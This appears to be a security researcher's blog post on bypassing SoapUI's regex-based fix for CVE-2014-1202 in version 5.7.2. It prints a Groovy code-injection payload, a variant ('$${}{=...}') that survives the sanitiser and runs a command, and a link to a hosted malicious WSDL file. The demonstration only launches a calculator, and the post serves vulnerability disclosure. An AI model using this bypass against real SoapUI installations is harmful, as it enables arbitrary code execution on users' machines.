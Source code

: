 # Arbitrary Code Injection Via Groovy Script Parser (SoapUI)


**Severity:** High

**Exploitability:** Medium

**Function:** XML/WSDL

Hello everyone,

In this blog, I will explain how I bypassed the mitigation for **CVE-2014-1202** using instrumentation.

While reviewing the **CVE-2014-1202** vulnerability, I noticed that in SoapUI, WSDL can be loaded from a URL or file. However, older versions of SoapUI do not have validation when loading XML/WSDL with a Groovy script, which can lead to a code injection issue.

---

### What is Groovy.

Groovy is **a scripting language for the Java platform**. It's a superset of Java, which means Java programs can run in the Groovy environment.

While Groovy can be a powerful tool, it is crucial to use it responsibly and securely. Always ensure that input validation and sanitization measures are in place to prevent code injection vulnerabilities.

---

To reproduce this issue, I attempted it with the latest version of SoapUI (5.7.2). 

You can download it from the following link: [**](https://www.soapui.org/downloads/latest-release/)https://www.soapui.org/downloads/latest-release/**

Also i did project setup and instrument using **Fusion Lite Project Manager.**

Download Malicious WSDL file of previous payload:  https://raw.githubusercontent.com/spookhorror/SOAPUICodeInjection/main/OLDWSDL.xml

To load WSDL please follow below step:
Click on SOAP and append endpoint of XML file. Click on “OK”

![image](https://github.com/spookhorror/Blogs/assets/67255423/5a9ef37f-3520-4d14-a939-7794ba50275f)

As we can see application is removing malicious content. Observe the logs.

```java
${=Runtime.getRuntime().exec('calc.exe')};
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/6a06928f-619a-4108-af14-f45fb04986eb)
![image](https://github.com/spookhorror/Blogs/assets/67255423/1e461b97-8ece-4d81-a425-909c6e955829)

In **Fusion Lite Analyzer** we can see that application has Class called **Tools** which is responsible for removing malicious content because it has regex functionality which will remove malicious content.

![image](https://github.com/spookhorror/Blogs/assets/67255423/7d528050-6c32-4f6e-b203-d692a62eb83f)
![image](https://github.com/spookhorror/Blogs/assets/67255423/2db890e8-4e51-40e3-a667-94b21828bd0e)

After trying multiple methods to bypass regex, I have created a payload where the regex only removes a specific string payload

I.e

Old Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/beda9bdd-7f6f-4782-b381-73d69975a3b3)

New Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/a61d0b7c-6d73-43ec-b58c-a8b99aaae5c7)

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
​
```

As we can see, the regex matches only specific characters from the payload. Therefore, the method below will remove only a specific substring from the payload and return the actual payload.
```java
public static String removePropertyExpansions(String definitionUrl, String definition) {
        Matcher matcher = PROPERTY_EXPANSION_CONTAINS_PATTERN.matcher(definition);
        while (matcher.find()) {
            log.warn(messages.get("Tools.Warning.PropertyExpansionRemovedFromDefinition", definitionUrl, matcher.group()));
        }
        return matcher.replaceAll("");
    }
}


com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
​
```
We need to update payload in WSDL file and again load in SoapUI.
Updated XML:

![image](https://github.com/spookhorror/Blogs/assets/67255423/519aad05-e3e8-4fd4-9656-96096c7ad917)
![image](https://github.com/spookhorror/Blogs/assets/67255423/32e12d26-548b-4a93-af1b-4786574e5cbf)

Click on 'Send Request' and observe the execution of the calculator.

![image](https://github.com/spookhorror/Blogs/assets/67255423/219ad647-12d5-43bb-a678-57fa14fa27a3)

With updated payload we can see that below method has removed only this ${} content from payload and return updated string as.

Method:

```java
com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/416aaab6-9ace-440f-abe1-3b36f406ef74)

Logs:
![image](https://github.com/spookhorror/Blogs/assets/67255423/53ea39b0-a44c-44db-8512-0252463551fc)

Updated string:

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
```

Here is updated content of request which contain malicious groovy script.
![image](https://github.com/spookhorror/Blogs/assets/67255423/a2927359-020a-483a-9c87-a522f3f33c3b)


The following method will execute a Groovy script that contains malicious code.

```java
groovy.lang.GroovyShell : groovy.lang.Script parse(java.lang.String)
```

![image](https://github.com/spookhorror/Blogs/assets/67255423/99fad30e-b7f8-45e7-8678-b1a36ae149f5)
